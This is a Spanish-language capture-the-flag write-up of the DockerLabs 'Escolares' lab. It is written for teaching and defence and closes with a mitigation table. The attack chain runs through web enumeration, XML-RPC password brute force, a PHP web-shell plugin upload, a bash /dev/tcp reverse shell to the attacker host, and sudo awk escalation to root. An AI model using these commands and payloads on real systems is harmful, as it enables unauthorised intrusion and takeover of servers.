



# Escolares — DockerLabs Writeup

**Platform:** DockerLabs | **Difficulty:** easy | **Target IP:** 172.18.0.2 | 

## Descripcion 

Laboratorio para practicar la explotación de WordPress (plugin File Manager) y escalada de privilegios mediante movimiento entre usuarios.

## Attack chain

**Nmap → Web Enumeration → Gobuster → Information Disclosure → WordPress Enumeration → XML-RPC Brute Force → Malicious Plugin Upload → PHP RCE → Reverse Shell → www-data Access → SSH Lateral Movement → Sudo Misconfiguration (awk) → Root**

## 1. Análisis y escaneo del objetivo

Identificación de servicios con nmap:

```bash

┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/escolares]
└─$ nmap -sV -sC -p- 172.18.0.2 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-12 20:30 -0300
Nmap scan report for 172.18.0.2
Host is up (0.000013s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 42:24:24:f5:66:68:a4:ad:8e:24:0d:70:4a:a5:e3:4f (ECDSA)
|_  256 29:42:2e:b6:85:ae:fb:09:89:8d:b9:c1:dc:4d:fc:1e (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: P\xC3\xA1gina Escolar Universitaria
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 9E:0A:4F:A1:22:59 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
Resultado: Dos puerto **80/tcp abierto**, Apache 2.4.69 (Debian) - **22 SSH abierto**

Ingresamos a `172.18.0.2` nos encontramos con la siguiente pagina 




## 2. Enumeracion WEB 

Fuzzing de directorios con `gobuster`:

```bash
                                                                                                                                 
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/escolares]
└─$ gobuster dir  -u http://172.18.0.2/  -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -x php,html,htm,txt,bak,old,zip,conf,config,log      
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.18.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              php,htm,old,zip,conf,log,html,txt,bak,config
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
assets               (Status: 301) [Size: 309] [--> http://172.18.0.2/assets/]
javascript           (Status: 301) [Size: 313] [--> http://172.18.0.2/javascript/]
info.php             (Status: 200) [Size: 87161]
index.html           (Status: 200) [Size: 6738]
phpmyadmin           (Status: 301) [Size: 313] [--> http://172.18.0.2/phpmyadmin/]
wordpress            (Status: 301) [Size: 312] [--> http://172.18.0.2/wordpress/]
contacto.html        (Status: 200) [Size: 3210]
server-status        (Status: 403) [Size: 275]
index.html           (Status: 200) [Size: 6738]
profesores.html      (Status: 200) [Size: 3742]
Progress: 685091 / 685091 (100.00%)
===============================================================
Finished
===============================================================

```
Además de un WordPress y un `phpMyAdmin`, hay varias páginas estáticas institucionales (`index.html`, `contacto.html`, `profesores.html`).
 
## 3. Information disclosure en profesores.html

Dentro del listado de profesores aparecen los siguientes datos, siendo de interes el del 'Luis' ya que es admin de wordpress:



```bash

<div class="profesor">
            
            <h2>Luis ;) </h2>
            <p>Matrícula: 19131337</p>
            <p>Especialidad: Ingeniería en Sistemas</p>
            <p>Fecha de Nacimiento: 09/10/1981</p>
            <p>Email: luisillo@example.com</p>
        </div>

```
El atributo `alt` de la imagen dice literalmente "(**admin wordpress**)", y el nombre "`Luis` ;)" junto al correo (`luisillo@example.com`) apuntan directo a un usuario de WordPress. Esta página estática, pensada como contenido institucional inocuo, termina siendo la pista principal de toda la máquina.

### 4. Enumeración de WordPress

Confirmación de versión y enumeración de usuarios con `wpscan`:


```bash

└─$ wpscan --url 172.18.0.2/wordpress/ --enumerate u
[+] WordPress version 6.5.4 identified (Insecure, released on 2024-06-05).
[+] XML-RPC seems to be enabled: http://172.18.0.2/wordpress/xmlrpc.php
[+] Enumerating Users (via Passive and Aggressive Methods)
[+] luisillo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
[i] 1 user(s) Identified.


```

Usuario confirmado: `luisillo`.

### 4.1 Resolución de virtual host

Al intentar interactuar con el login usando la IP directamente, los formularios y redirects apuntaban a un hostname que no resolvía: `escolares.dl`. WordPress guarda el dominio del sitio (`siteurl/home`) en la base de datos, y lo usa para generar cookies de sesión y redirects — por eso el login fallaba silenciosamente al usar la IP.

```bash

┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/escolares]
└─$ echo "172.18.0.2 escolares.dl" | sudo tee -a /etc/hosts
[sudo] password for mariano: 
172.18.0.2 escolares.dl

```

### 5. Password bruteforce vía XML-RPC

Con el usuario confirmado, se armó un diccionario dirigido combinando los datos personales expuestos en `profesores.html` (matrícula, fecha de nacimiento, apodo, especialidad), complementado con `cupp -i` para generar variantes adicionales.

```bash

┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/escolares]
└─$ wpscan --url http://escolares.dl/wordpress/ --usernames luisillo --passwords luis_pass.txt --password-attack xmlrpc
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - luisillo / Luis1981

[!] Valid Combinations Found:
 | Username: luisillo, Password: Luis1981

```

Credenciales válidas: **luisillo : Luis1981**.

Ingreso al `wp-admin`




## 6. RCE vía plugin malicioso

Tras loguear en el panel de administración, realizando la subida de un plugin en formato ZIP.

```bash

┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/escolares/shell-plugin]
└─$ cat shell.php
<?php
/*
Plugin Name: Shell
*/
if(isset($_GET['cmd'])){ system($_GET['cmd']); }

┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/escolares]
└─$ zip -r ../shell.zip . 
  adding: auto_deploy.sh (deflated 68%)
  adding: luis_pass.txt (deflated 56%)
  adding: shell-plugin/ (stored 0%)
  adding: shell-plugin/shell.php (deflated 13%)
  adding: luis.txt (deflated 83%)
  adding: escolares.zip (stored 0%)
  adding: shell.php (deflated 15%)
  adding: cookies.txt (deflated 57%)
  adding: escolares.tar (deflated 82%)

```
Subido desde Plugins → Añadir nuevo → Subir plugin. WordPress copia el archivo al servidor apenas se sube → Se activa plugin

```bash

┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/escolares/shell-plugin]
└─$ curl "http://escolares.dl/wordpress/wp-content/plugins/shell-plugin/shell.php?cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
RCE confirmada. Se levanta un listener y se dispara la reverse shell:

```bash

┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/escolares/shell-plugin]
└─$ nc -lvnp 4444
listening on [any] 4444 ...

┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/escolares/shell-plugin]
└─$ curl -G "http://escolares.dl/wordpress/wp-content/plugins/shell-plugin/shell.php" \
  --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/172.18.0.1/4444 0>&1'"

```
Shell recibida y estabilizada:

```bash

www-data@afd1bba010b6:/var/www/html/wordpress$ python3 -c 'import pty; pty.spawn("/bin/bash")'

```
## 7. Enumeración post-explotación

Checklist estándar de enumeración Linux: SUID, usuarios con shell y archivos sensibles en home.

```bash

www-data@afd1bba010b6:/$ find / -perm -4000 2>/dev/null   # solo SUID estándar de Ubuntu
www-data@afd1bba010b6:/$ cat /etc/passwd | grep -E "sh$"
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
luisillo:x:1001:1001:,,,:/home/luisillo:/bin/bash

```
Hallazgo clave en `/home`:

```bash

www-data@afd1bba010b6:/$ ls -la /home/
-rwxrwxrwx 1 root     root       23 Jun  8  2024 secret.txt
drwxr-x--- 1 luisillo luisillo 4096 Jun  8  2024 luisillo
drwxr-x--- 1 ubuntu   ubuntu   4096 Jun  8  2024 ubuntu

www-data@afd1bba010b6:/$ cat /home/secret.txt
luisillopasswordsecret

```
Un archivo con permisos de lectura global contiene una contraseña en texto plano para el usuario `luisillo`.

> Durante la enumeración también se encontraron otras pistas — un segundo secreto en `/tmp/.secret.txt` codificado en base64, y las credenciales de la base de datos en `wp-config.php` (`wordpressuser:contrapoderosa123`) — pero ninguna resultó ser la contraseña del sistema; la clave fue la de `/home/secret.txt`.

## 8. Movimiento lateral → SSH

```bash

┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/escolares]
└─$ ssh luisillo@172.18.0.2
luisillo@172.18.0.2's password: luisillopasswordsecret
luisillo@afd1bba010b6:~$

```

## 9. NOPASSWD Sudo (awk) → Root

```bash

luisillo@afd1bba010b6:~$ sudo -l
Matching Defaults entries for luisillo on afd1bba010b6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User luisillo may run the following commands on afd1bba010b6:
    (ALL) NOPASSWD: /usr/bin/awk

```

`awk` permite ejecutar comandos del sistema y está listado en [GTFOBins](https://gtfobins.github.io/gtfobins/awk/#sudo). Se explota directamente:

```bash

luisillo@afd1bba010b6:~$ sudo awk 'BEGIN {system("/bin/bash")}'
root@afd1bba010b6:/home/luisillo# id
uid=0(root) gid=0(root) groups=0(root)
root@afd1bba010b6:/home/luisillo# whoami
root

```

# Conclusión

A partir del escaneo inicial con **Nmap**, se identificaron los servicios SSH y Apache. Durante la enumeración web, mediante **Gobuster**, se descubrieron diferentes rutas, incluyendo un sitio WordPress. Al revisar la página `profesores.html`, se encontraron datos personales de un administrador que permitieron generar un diccionario de contraseñas y obtener sus credenciales mediante fuerza bruta a través de **XML-RPC**.

Una vez dentro de WordPress, se realizó la subida de un plugin PHP malicioso, logrando **ejecución remota de comandos (RCE)** y obteniendo una shell reversa como `www-data`.

Posteriormente, durante la enumeración del sistema, se encontró una contraseña en `/home/secret.txt`, que permitió acceder mediante SSH como `luisillo`. Finalmente, aprovechando los permisos `NOPASSWD` sobre el binario `awk`, se consiguió ejecutar una shell con privilegios de `root`, completando la máquina.

En conclusión, **Escolares** permite comprender cómo la exposición de información sensible puede facilitar el acceso inicial a una aplicación web y cómo una configuración insegura de permisos sudo puede utilizarse para escalar privilegios dentro de un sistema.

| Vulnerabilidad / Técnica | Impacto | Mitigación |
|---|---|---|
| **Information Disclosure** | Expone información personal que puede utilizarse para identificar usuarios y generar ataques dirigidos. | Restringir la exposición de información sensible y evitar publicar datos innecesarios. |
| **Password Brute Force (XML-RPC)** | Permite obtener credenciales válidas mediante intentos automatizados de autenticación. | Implementar políticas de contraseñas robustas, limitar intentos de acceso y restringir XML-RPC cuando no sea necesario. |
| **Remote Code Execution (RCE)** | Permite ejecutar comandos arbitrarios en el servidor mediante un plugin PHP malicioso. | Restringir la instalación de plugins, validar su procedencia y mantener WordPress actualizado. |
| **Exposición de credenciales** | Permite obtener contraseñas del sistema almacenadas en archivos accesibles por usuarios no autorizados. | Aplicar permisos restrictivos y evitar almacenar contraseñas en texto plano. |
| **Sudo Misconfiguration (awk)** | Permite ejecutar comandos arbitrarios con privilegios de `root` mediante un binario autorizado en sudo. | Evitar conceder permisos `NOPASSWD` sobre binarios que permitan ejecutar comandos y aplicar el principio de mínimo privilegio. |

## Recomendaciones generales

- Evitar publicar información personal que pueda utilizarse para ataques dirigidos.
- Implementar contraseñas robustas y limitar los intentos de autenticación.
- Restringir la instalación de plugins y verificar su procedencia.
- Mantener WordPress, sus plugins y componentes actualizados.
- Proteger los archivos que contienen credenciales mediante permisos adecuados.
- Auditar periódicamente las reglas de `sudo` y evitar permisos innecesarios sobre binarios que permitan ejecutar comandos.
